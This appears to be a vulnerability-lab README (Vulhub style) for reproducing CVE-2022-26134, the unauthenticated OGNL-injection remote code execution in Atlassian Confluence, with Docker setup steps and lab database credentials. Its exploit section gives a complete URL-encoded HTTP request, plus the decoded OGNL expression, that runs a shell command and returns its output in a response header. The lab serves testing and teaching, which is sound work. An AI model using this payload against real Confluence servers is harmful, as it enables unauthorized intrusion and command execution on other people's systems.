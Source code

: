 # Confluence Pre-Auth Remote Code Execution via OGNL Injection (CVE-2022-26134)

[中文版本(Chinese version)](README.zh-cn.md)

Confluence is a web-based corporate wiki developed by Australian software company Atlassian.

On June 02, 2022 Atlassian released a security advisory for their Confluence Server and Data Center applications, highlighting a critical severity unauthenticated remote code execution vulnerability. The OGNL injection vulnerability allows an unauthenticated user to execute arbitrary code on a Confluence Server or Data Center instance.

References:

- <https://confluence.atlassian.com/doc/confluence-security-advisory-2022-06-02-1130377146.html>
- <https://attackerkb.com/topics/BH1D56ZEhs/cve-2022-26134/rapid7-analysis>

## Vulnerable Environment

Execute following command to start a Confluence Server 7.13.6:

```
docker compose up -d
```

After the environment starts, visit ``http://your-ip:8090`` and you will see the installation guide, select "Trial installation", then you will be asked to fill in the license key. You should apply for a Confluence Server test certificate from Atlassian.

Following [this guide](https://github.com/vulhub/vulhub/tree/master/confluence/CVE-2019-3396) to complete the installation.

On the database configuration page, fill in the form with database address `db`, database name `confluence`, username `postgres`, password `postgres`.

![](1.png)

## Exploit

Simplely send following request to execute arbitrary commands inside an craft OGNL expression and get the response:

```
GET /%24%7B%28%23a%3D%40org.apache.commons.io.IOUtils%40toString%28%40java.lang.Runtime%40getRuntime%28%29.exec%28%22id%22%29.getInputStream%28%29%2C%22utf-8%22%29%29.%28%40com.opensymphony.webwork.ServletActionContext%40getResponse%28%29.setHeader%28%22X-Cmd-Response%22%2C%23a%29%29%7D/ HTTP/1.1
Host: your-ip:8090
Accept-Encoding: gzip, deflate
Accept: */*
Accept-Language: en
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/97.0.4692.71 Safari/537.36
Connection: close


```

![](2.png)

The URL-decoded OGNL expression is `${(#a=@org.apache.commons.io.IOUtils@toString(@java.lang.Runtime@getRuntime().exec("id").getInputStream(),"utf-8")).(@com.opensymphony.webwork.ServletActionContext@getResponse().setHeader("X-Cmd-Response",#a))}`.
